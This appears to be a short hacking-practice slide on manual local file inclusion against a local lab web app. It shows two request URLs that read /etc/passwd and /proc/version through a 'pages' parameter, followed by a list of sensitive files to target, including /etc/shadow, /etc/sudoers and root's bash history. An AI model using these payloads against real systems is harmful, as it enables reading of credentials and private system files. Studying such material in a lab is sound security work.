

# Manual lfi
http://127.0.0.1:42001/vulnerabilities/fi/?pages=/etc/passwd
http://127.0.0.1:42001/vulnerabilities/fi/?pages=/proc/version

– /etc/issue
– /proc/version
– /etc/profile
– /etc/passwd
– /etc/passwd
– /etc/shadow
– /root/.bash_history

– /var/log/dmessage
– /var/mail/root
– /var/spool/cron/crontabs/root
– /etc/fstab
– /etc/master.passwd
– /etc/resolv.conf
– /etc/sudoers
– /etc/sysctl.conf